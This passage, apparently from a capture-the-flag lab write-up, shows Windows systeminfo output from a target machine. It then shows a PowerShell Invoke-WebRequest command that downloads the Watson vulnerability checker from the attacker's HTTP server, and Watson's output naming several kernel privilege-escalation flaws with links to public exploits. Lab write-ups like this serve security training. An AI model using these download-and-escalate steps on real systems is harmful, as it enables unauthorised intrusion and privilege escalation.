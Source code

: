```
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

With such an old system I decided to copy Watson (checks for kernel exploits) over to the target using our HTTP server:

```
PS C:\Users\kostas\Desktop> Invoke-WebRequest -Uri "http://10.10.14.2/Watson.exe" -OutFile "C:\Users\kostas\Desktop\Watson.exe"
```

```
PS C:\Users\kostas\Desktop> ./Watson.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 9600
 [*] CPU Address Width: 64
 [*] Processs IntPtr Size: 8
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS15-051
   [>] Description: An EoP exists due to improper object handling in the win32k.sys kernel mode driver.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_051_client_copy_image.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS15-076
   [>] Description: Local DCOM DCE/RPC connections can be reflected back to a listening TCP socket allowing access to an NTLM authentication challenge for LocalSystem, which can be replayed to the local DCOM activation service to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/37768/
   [>] Notes: None.

  [*] Appears vulnerable to MS15-078
   [>] Description: An EoP exists due to a pool based buffer overflow in the atmfd.dll driver when parsing a malformed font.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_078_atmfd_bof.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS16-032
   [>] Description: An EoP exists due to a lack of sanitization of standard handles in Windows' Secondary Logon Service.
```